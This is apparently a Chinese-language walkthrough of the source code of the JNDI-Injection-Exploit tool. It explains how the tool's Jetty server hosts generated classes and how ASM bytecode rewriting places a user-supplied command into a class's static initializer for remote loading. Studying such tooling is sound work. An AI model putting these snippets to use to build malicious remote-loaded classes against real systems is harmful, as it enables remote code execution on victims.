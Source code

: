 ## JNDI-Injection-Exploit

常用的一个工具，提供class的远程加载功能，根据命令行输入动态生成class并放在服务器上

### ServerStart

作为程序的启动类，处理传入的参数和开启几个server的线程，并打印一些初始信息

### JettyServer

将生成好的.class文件加入http server中让被外部访问

DownloadServlet会对下载/访问情况作log记录，命令部分在

```java
transformed = insertCommad(in, command);
```

```java
public static byte[] insertCommand(InputStream inputStream, String command) throws Exception{
    ClassReader cr = new ClassReader(inputStream);
    ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
    ClassVisitor cv = new TransformClass(cw,command);
    cr.accept(cv, 2);
    return cw.toByteArray();
}
```

这里Class开头的三个类都属于ASM库，可以用来操作字节码

- ClassReader

将.class文件读入到ClassReader的字节数组中，accept方法接受一个ClassVisitor实现类，并按照顺序调用ClassVisitor中的方法

- ClassWriter

是ClassVisitor的子类，是和ClassReader对应的类，将修改后的类的字节码的内容以字节数组形式输出

- ClassVisitor

一个抽象类，有很多方法，其中`public MethodVisitor visitMethod(xxxx)`方法，是当扫描器扫描到类的方法时调用，各个参数分别为修饰符、方法名、方法签名、泛型信息、抛出的异常

综上，这段插入命令的代码是创建一个ClassReader读入class文件，创建ClassWriter并经过TransformClass的修饰生成ClassVisitor对象，调用ClassReader的accept方法（传入这个ClassVisitor对象），按顺序执行ClassVisitor中的方法

这个TransformClass是自行实现的

```java
static class TransformClass extends ClassVisitor{
    String command;
    TransformClass(ClassVisitor classVisitor, String command){
        super(Opcodes.ASM7,classVisitor);
        this.command = command;
    }
    @Override
    public MethodVisitor visitMethod(
            final int access,
            final String name,
            final String descriptor,
            final String signature,
            final String[] exceptions) {
        MethodVisitor mv = cv.visitMethod(access, name, descriptor, signature, exceptions);
        if(name.equals("<clinit>")){
            return new TransformMethod(mv,command);
        }else{
            return mv;
        }
    }
}
```